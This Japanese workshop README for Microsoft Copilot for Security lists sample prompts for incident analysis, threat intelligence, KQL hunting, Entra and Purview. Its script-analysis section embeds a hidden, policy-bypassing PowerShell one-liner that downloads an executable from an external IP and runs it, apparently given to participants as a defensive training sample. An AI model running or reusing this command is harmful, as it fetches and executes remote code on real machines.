 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop


https://securitycopilot.microsoft.com/

ポータルサイト一覧：
[Copilot for Security](https://securitycopilot.microsoft.com/)
&nbsp;
[Microsoft Defender XDR Portal](https://security.microsoft.com/)
&nbsp;
[Microsoft Purview Portal](https://purview.microsoft.com/)

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの上位5件を教えて
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon について教えて
 ```

***
&nbsp;
## ハンズオンシナリオ➂　Azure AI Search、ファイル
Azure AI Search
```
Azure AI Search プラグインを使用して、インシデントの対応手順を教えて
```

ファイル
```
CVE-2024-3400について教えて
```
その後、Query Uploaded Filesスキルを利用


***
&nbsp;
## ハンズオンシナリオ➂　アドバンスドハンティング　KQL

```
NL2KQL for Defender を使用して、エンドポイントからIPv4アドレスの 101.35.198.64 への通信教えて
```

***
&nbsp;
## ハンズオンシナリオ➃　Defender XDR 
組み込み型Defender XDRインシデント例：このアラートはWorkShop参加者の方のみ参照可能です。
[サンプルインシデント](https://security.microsoft.com/incident2/29/overview?tid=5a8651c4-c62f-41bd-ac00-c2c32ec7ae46)

***
&nbsp;
## ハンズオンシナリオ➃　脅威インテリジェンス
脅威インテリジェンスの調査例：このアラートはWorkShop参加者の方のみ参照可能です。
[サンプルIoC情報（ファイルハッシュ）](https://security.microsoft.com/intel-explorer/search/data/summary?tid=5a8651c4-c62f-41bd-ac00-c2c32ec7ae46&query=93af6afb47f4c42bc0da3eedc6ecb9054134f4a47ef0add0d285404984011072)

プロンプト例：
[サンプルIoC情報（ドメイン）](https://security.microsoft.com/intel-explorer/search/data/summary?tid=5a8651c4-c62f-41bd-ac00-c2c32ec7ae46&query=12defense.accountand.ru)

***
&nbsp;
## ハンズオンシナリオ➃　Entra

```
ユーザー test02@MngEnvMCAP616855.onmicrosoft.com について教えて
```
```
ユーザー test02@MngEnvMCAP616855.onmicrosoft.com に対してどのような認証方法が有効になっていますか？
```
```
NL2KQL for Sentinel を使用して,SigninLogsから "test02@mngenvmcap616855.onmicrosoft.com"のSign-in ログ見せて
```


***
&nbsp;
## ハンズオンシナリオ➃　Purview

```
Microsoft Purview から、優先すべき重大度の高いアラートの上位5件を教えて
```
```
アラートID　dl13063524-3948-d713-2a00-08dcbd250086　について教えて
```
```
調査結果をエグゼクティブ・レポートにまとめて
```

組み込み型IRMアラート例：このアラートはWorkShop参加者の方のみ参照可能です。
[サンプルアラート](https://purview.microsoft.com/insiderriskmgmt/alertspage/insiderriskmgmt/alertspage/review/219e3c66-8c3d-4b42-8b91-200edd7d15b7?tid=5a8651c4-c62f-41bd-ac00-c2c32ec7ae46&alertname=IRM-DL-1&alertviewid=summary)

***
&nbsp;
## ハンズオンシナリオ➄ Logic Apps - Email 分析

